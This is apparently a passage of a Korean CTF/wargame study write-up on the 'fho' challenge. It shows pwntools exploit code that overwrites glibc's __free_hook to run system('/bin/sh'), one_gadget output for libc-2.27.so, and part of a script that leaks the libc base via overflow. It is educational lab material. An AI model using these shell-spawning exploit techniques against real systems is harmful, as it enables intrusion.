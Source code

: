 
C소스에서 free() 가 실행될 때 인자로 "/bin/sh"주소 전달하기 
``` python
# [3] Exploit
# C소스에서 scanf("%llu", &addr); 로 입력할 값을 binsh를 전달.
# free(addr); 로 free를 실행할 때 "/bin/sh"의 주소를 인자로 받게된다.
# 이 때 free함수의 훅 변수를 system의 주소로 Overwrite를 했으므로 결과는 system("/bin/sh")이 실행되게 된다.
p.recvuntil('To free: ')
p.sendline(str(binsh).encode())

p.interactive()
```


### +a, one_gadget 이용 방식

원 가젯 또는 magic_gadget 은 실행하면 셸이 획득되는 코드 뭉치이다.
기존에는 셸을 획득하기 위해 여러 개의 가젯을 조합해서 ROP Chain을 구성하거나 RTL 공격을 수행했지만, 원 가젯은 단일 가젯만으로도 셸을 실행할 수 있는 매우 강력한 가젯이다.

원 가젯은 함수에 인자를 전달하기 어려울 때 유용하게 활용할 수 있다.
예를 들어 \_\_malloc_hook 을 임의의 값으로 오버라이트 할 수 있지만, malloc의 인자에 작은 정수 밖에 입력할 수 없는 상황이라면 "/bin/sh" 문자열 주소를 인자로 전달하기가 매우 어렵다. 
이럴 때 제약조건을 만족하는 원 가젯이 존재한다면, 이를 호출해서 셸을 획득할 수 있다.

```
$ one_gadget ./libc-2.27.so
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

#### one_gadget 실습
``` python
#!/usr/bin/env python3
# Name: fho_og.py

from pwn import *

p = process('./fho')
e = ELF('./fho')
libc = ELF('./libc-2.27.so')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak libc base
'''
Buf: 프롬프트 이후에 0x48 길이만큼 A를 채워서 보냄 → 오버플로우 유도.
그 다음 프로그램에서 libc 함수 주소 일부(__libc_start_main 관련 주소)를 누수(leak)하도록 설계되어 있음.
p.recvline()[:-1] : 개행(\n) 제거
+ b'\x00'*2 : libc 주소는 6바이트까지만 leak되므로, 나머지 상위 2바이트를 0x00으로 채움.
u64(...) : leak한 바이트열을 64비트 정수로 변환.
__libc_start_main 반환 지점에서 leak된 주소에서 오프셋을 빼서 libc base 주소를 계산.

+231 은 __libc_start_main 내부에서 실제 반환 주소까지의 offset.
__free_hook 의 실제 메모리 주소 계산.
og 는 one-gadget RCE (system("/bin/sh") 같은 동작을 대신하는 gadget).
0x4f432 는 libc-2.27.so에서 유명한 one-gadget offset.
```